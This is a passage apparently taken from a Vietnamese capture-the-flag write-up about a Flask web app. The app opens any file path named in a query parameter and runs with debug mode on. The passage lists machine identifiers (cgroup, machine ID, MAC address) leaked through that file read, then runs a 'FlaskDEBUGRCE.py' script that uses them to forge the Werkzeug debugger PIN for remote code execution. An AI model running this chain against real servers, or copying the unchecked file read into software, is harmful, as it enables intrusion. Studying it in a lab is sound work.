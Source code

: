 ```
        template_name = request.args.get("search")
    
    try:
        # Ensure the template exists and is safe to read
        with open(template_name) as f:
            template_content = f.read()
    except FileNotFoundError:
        # Return 404 if the template file doesn't exist
        abort(404)
    except Exception as e:
        # Return internal server error for other exceptions
        return f"An error occurred: {e}", 500

    return render_template("services.html", template=template_content)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=True)

```

![image](https://hackmd.io/_uploads/HJRCEVAyyg.png)

chưa thấy có manh mối gì


```
12:perf_event:/
11:cpu,cpuacct:/user.slice
10:memory:/user.slice/user-1045.slice/user@1045.service
9:freezer:/
8:devices:/user.slice
7:rdma:/
6:hugetlb:/
5:blkio:/user.slice
4:cpuset:/
3:pids:/user.slice/user-1045.slice/user@1045.service
2:net_cls,net_prio:/
1:name=systemd:/user.slice/user-1045.slice/user@1045.service/docker-rootless.service/4acf855fca20f182bc577aa61dadfc30acbcda83c9996839c18000c5292347d7
0::/user.slice/user-1045.slice/user@1045.service/docker-rootless.service
```

`a50e2df9-73cb-4207-980a-15fab2109534`

`02:42:ac:11:00:22`

```
l3mnt2010@ASUSEXPERTBOOK:~/rootme$ python3 FlaskDEBUGRCE.py --username web-app --path '/home/web-app/.local/lib/python3.11/site-packages/flask/app.py' --mac '02:42:ac:11:00:22' --cgroup '12:perf_event:/' --machine_id 'a50e2df9-73cb-4207-980a-15fab2109534' --modname flask.app --appname Flask



                        ¶         ¶
                         ¶         ¶
                     ¶   ¶         ¶   ¶
                     ¶  ¶¶         ¶¶  ¶
                     ¶¶ ¶¶¶       ¶¶¶ ¶¶
             ¶      ¶¶   ¶¶¶     ¶¶¶   ¶¶      ¶
            ¶¶      ¶¶   ¶¶¶     ¶¶¶   ¶¶      ¶¶
           ¶¶      ¶¶    ¶¶¶¶   ¶¶¶¶    ¶¶      ¶¶
           ¶¶     ¶¶¶    ¶¶¶¶  ¶¶¶¶¶    ¶¶¶     ¶¶¶
       ¶  ¶¶¶    ¶¶¶¶    ¶¶¶¶   ¶¶¶¶    ¶¶¶¶   ¶¶¶¶  ¶
       ¶¶ ¶¶¶¶¶  ¶¶¶¶   ¶¶¶¶¶   ¶¶¶¶¶   ¶¶¶¶  ¶¶¶¶¶ ¶¶
       ¶¶ ¶¶¶¶¶  ¶¶¶¶¶¶¶¶¶¶¶     ¶¶¶¶¶¶¶¶¶¶¶  ¶¶¶¶¶ ¶¶
       ¶¶ ¶¶¶¶¶  ¶¶¶¶¶¶¶¶¶¶¶     ¶¶¶¶¶¶¶¶¶¶¶  ¶¶¶¶¶ ¶¶
```